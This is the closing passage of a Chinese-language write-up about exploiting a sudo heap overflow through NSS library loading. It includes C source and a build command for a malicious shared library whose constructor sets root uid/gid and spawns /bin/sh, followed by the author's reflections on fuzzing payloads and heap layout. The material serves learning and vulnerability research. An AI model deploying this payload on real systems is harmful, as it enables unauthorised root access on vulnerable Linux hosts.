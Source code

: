 X.so.2的实现：

```c
/*gcc -fPIC -shared callback.c -o libnss_X/X.so.2*/
#define _GNU_SOURCE 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define EXECVE_SHELL_PATH "/bin/sh"
 
static void __attribute__ ((constructor)) pop_shell(void);
char *n[] = {NULL};

void pop_shell(void) {
    printf("[+] callback executed!\n");
    setresuid(0, 0, 0);			//设置ruid、euid、suid全部为0
    setresgid(0, 0, 0);			//设置rgid、egid、sgid全部为0
    if(getuid() == 0) {
        puts("[+] we are root!");
    } else {
        puts("[-] something went wrong!");
        exit(0);
    }
    
    execve(EXECVE_SHELL_PATH, n, n);		//返回root shell
```

# 七、总结

一开始我打算通过分析堆的每一处分配和释放来手写载荷的，但是发现堆的行为太过复杂，setlocale的环境变量和溢出前的堆布局之间的关系较为复杂和模糊，于是转向Fuzz搜索载荷。
总体而言我认为这个漏洞虽然普遍存在，但是要成功利用还是不容易的，最重要的原因是受到操作系统环境的影响，即使是同发行版的系统、运行相同的内核、相同的sudo程序，实际的exploit的执行效果仍然会受到环境因素影响。

幸运的是fuzz出来的载荷和我一开始关于堆布局的设想是一致的，载荷中的cmnd1和cmnd2总长度为0x80，控制了user_args分配到较低地址处的堆块，成功溢出了service_user结构且未破坏其他关键结构。

这是我第一次尝试开发Exploit，遇到了许多意想不到的困难，真实环境远比CTF竞赛题目要复杂。这次成功的尝试我积累了大量的gdb调试经验，了解到了动态链接库载入的机制和s位程序提权的思路。关键的是创新地提出了自己的方法，尤其是在分析堆布局、设置堆排列的地方，化繁为简层层转化，设定了最终的目标是控制大小为0x80的低地址堆块，找出了影响堆布局的关键变量并缩小了fuzz空间。